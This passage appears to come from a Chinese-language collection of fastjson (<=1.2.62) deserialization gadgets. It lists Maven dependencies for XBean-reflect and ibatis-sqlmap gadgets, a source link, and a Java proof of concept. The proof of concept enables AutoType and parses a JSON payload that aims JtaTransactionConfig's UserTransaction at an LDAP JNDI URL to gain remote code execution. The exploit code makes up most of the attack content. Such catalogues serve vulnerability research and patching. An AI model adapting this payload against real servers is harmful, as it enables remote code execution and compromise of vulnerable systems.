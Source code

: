 - fastjson <= 1.2.62

### 依赖

XBean-reflect 依赖的 gadget

```
<dependency>
    <groupId>org.apache.xbean</groupId>
    <artifactId>xbean-reflect</artifactId>
</dependency>
```

### 来源

- https://github.com/threedr3am/learnjavabug/blob/master/fastjson/src/main/java/com/threedr3am/bug/fastjson/rce/JndiConverterPoc.java

## IbatisSqlmap RCE（<= 1.2.62）

fastjson <= 1.2.62 RCE，需要开启AutoType (report by threedr3am to 阿里云先知众测 - 内部已知)

### Payload

```java
public static void main(String[] args) {
    ParserConfig.getGlobalInstance().setAutoTypeSupport(true);

    String payload = "{\"@type\":\"com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig\",\"properties\": {\"@type\":\"java.util.Properties\",\"UserTransaction\":\"ldap://localhost:43658/Calc\"}}";//ldap方式
    JSON.parse(payload);
}
```

### 影响版本

- fastjson <= 1.2.62

### 依赖

```java
<dependency>
    <groupId>org.apache.ibatis</groupId>
    <artifactId>ibatis-sqlmap</artifactId>
    <version>2.3.4.726</version>
</dependency>
<dependency>
    <groupId>javax</groupId>
    <artifactId>javaee-api</artifactId>
    <version>8.0.1</version>
</dependency>
```
